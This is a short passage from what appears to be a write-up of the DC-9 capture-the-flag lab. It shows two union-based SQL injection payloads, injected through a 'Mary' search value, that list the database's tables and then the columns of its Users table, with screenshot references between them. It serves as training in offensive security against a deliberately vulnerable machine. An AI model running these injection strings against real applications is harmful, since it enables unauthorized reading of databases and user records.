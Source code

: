 `Mary' and 1=2 union select table_name,null,null,null,null,null from information_schema.tables where table_schema=database() #`

![](/assets/images/DC-9/screenshot-6.png)

In the output we see that there are two tables, let's list the columns of the **Users** table which is the one that most catches our attention.

`Mary' and 1=2 union select column_name,null,null,null,null,null from information_schema.columns where table_schema=database() and table_name='Users' #`

![](/assets/images/DC-9/screenshot-7.png)
